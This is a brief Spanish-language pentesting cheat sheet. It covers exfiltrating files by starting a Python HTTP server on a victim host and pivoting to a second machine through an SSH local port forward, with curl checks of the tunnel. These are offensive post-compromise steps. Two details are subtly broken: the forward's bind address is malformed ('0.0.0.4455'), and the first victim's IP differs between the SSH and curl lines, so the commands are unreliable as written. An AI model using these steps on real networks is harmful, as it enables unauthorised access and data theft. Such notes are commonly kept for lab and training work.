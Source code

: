 ## Exfiltración
Montar servidor y llevarte archivos
```shell
python3 -m http.server 80    #VICTIMA
```

----
# Mov Lateral  - Pivoting

#### Port-forwarding local
```shell
# 1. Conexión desde Kali a PrimeraVictima por SSH
ssh miuser@10.10.3.102

# 2. Creamos un tunel en PrimeraVictima  para que todo lo que entre por aquí se vaya a la SegundaMaquina
ssh -L 0.0.0.4455:172.0.1.102:80 miuser@localhost

### PRUEBAS: El resultado de hacer debe ser lo mismo
curl http://172.0.1.102:80  # SegundaMaquina
curl http://10.0.3.102:4455 # KALI
```

